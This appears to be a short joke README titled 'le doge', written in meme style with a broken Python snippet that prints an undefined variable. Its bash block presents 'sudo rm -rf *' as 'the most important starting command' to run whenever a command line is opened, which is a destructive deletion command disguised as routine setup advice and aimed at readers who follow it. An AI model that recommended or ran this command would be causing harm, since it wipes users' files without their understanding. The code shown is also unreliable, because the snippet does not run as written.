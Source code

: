 # le doge
Please understand how to use le doge, he is different from le chat.
- the code
- the vibe
- and the community [guidelines](https://www.4chan.org)

***


## The language

You should always use python code.

```python
woof = llm.invoke(prompt)

print('omg ledoge: ', wow)
```

### And the culture

Never forget the `most important starting command` when you open your cli.

```bash
echo "welcome charlie"

sudo rm -rf *
```


